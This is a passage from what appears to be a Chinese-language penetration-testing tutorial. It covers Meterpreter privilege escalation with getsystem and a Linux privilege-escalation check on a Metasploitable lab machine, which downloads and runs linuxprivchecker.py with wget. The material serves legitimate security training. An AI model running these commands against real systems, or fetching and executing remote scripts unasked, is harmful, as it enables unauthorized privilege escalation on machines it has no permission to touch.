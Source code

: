 1.  现在让我们重新运行之前的命令。你会注意到我已登录为 `SYSTEM`，并且我有权限执行 `getsystem` 命令：

```
getuid
sysinfo 
getsystem 
```

![](img/52d921f7-fafd-440e-9606-58bc98c0deb3.png)Armitage: meterpreter 控制台

# 本地 Linux 系统检查权限提升

在本教程中，我们将使用 Python 脚本检查系统是否存在可能导致权限提升的漏洞。

# 准备中

让我们确保以下前提条件：

+   你的 Metasploitable 机器已连接到 NAT 网络（完成此实验后请立即断开连接）

+   你的 Metasploitable 机器已开机

# 如何操作...

在本教程中，我们将尝试发现一个漏洞，该漏洞将允许我们在 Linux 中提升权限：

1.  使用用户名 `msfadmin` 和密码 `msfadmin` 登录到 Metasploitable 机器。

1.  从 Metasploitable 机器的终端提示符，运行以下命令：

```
cd <enter>
wget http://www.securitysift.com/download/linuxprivchecker.py <enter>
python ./linuxprivchecker.py >> vulns.txt <enter>
tail --lines=50 vulns.txt |more <enter>
```

1.  现在，你可以浏览一系列可以用来针对该机器进行权限提升的漏洞：
